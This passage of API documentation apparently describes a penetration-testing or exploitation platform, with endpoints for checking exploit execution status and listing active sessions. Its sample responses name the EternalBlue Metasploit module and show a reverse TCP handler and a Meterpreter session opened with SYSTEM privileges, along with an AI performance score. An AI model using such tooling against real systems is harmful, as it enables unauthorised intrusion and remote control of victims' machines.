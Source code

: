 Get status of exploit execution.

```http
GET /exploits/execute/exec_001
Authorization: Bearer <token>
```

**Response:**
```json
{
  "success": true,
  "data": {
    "execution_id": "exec_001",
    "status": "completed",
    "result": "success",
    "target": "192.168.1.100",
    "exploit": "exploit/windows/smb/ms17_010_eternalblue",
    "started_at": "2025-07-31T12:00:00Z",
    "completed_at": "2025-07-31T12:01:30Z",
    "duration": 90,
    "session_created": true,
    "session_id": 15,
    "output": [
      "[*] Started reverse TCP handler on 192.168.1.50:4444",
      "[*] Sending stage (200262 bytes) to 192.168.1.100",
      "[*] Meterpreter session 15 opened"
    ],
    "ai_analysis": {
      "success_factors": ["target_vulnerable", "correct_payload"],
      "performance_score": 9.2
    }
  }
}
```

## Session Management

### List Sessions

**GET /sessions**

Get list of active sessions.

```http
GET /sessions?status=active&target_id=1
Authorization: Bearer <token>
```

**Query Parameters:**
- `status` (string): Filter by status (active, closed, error)
- `target_id` (integer): Filter by target ID
- `session_type` (string): Filter by session type (meterpreter, shell, etc.)

**Response:**
```json
{
  "success": true,
  "data": {
    "sessions": [
      {
        "id": 15,
        "target_id": 1,
        "target_ip": "192.168.1.100",
        "session_type": "meterpreter",
        "user_context": "SYSTEM",
        "architecture": "x64",
        "platform": "windows",
```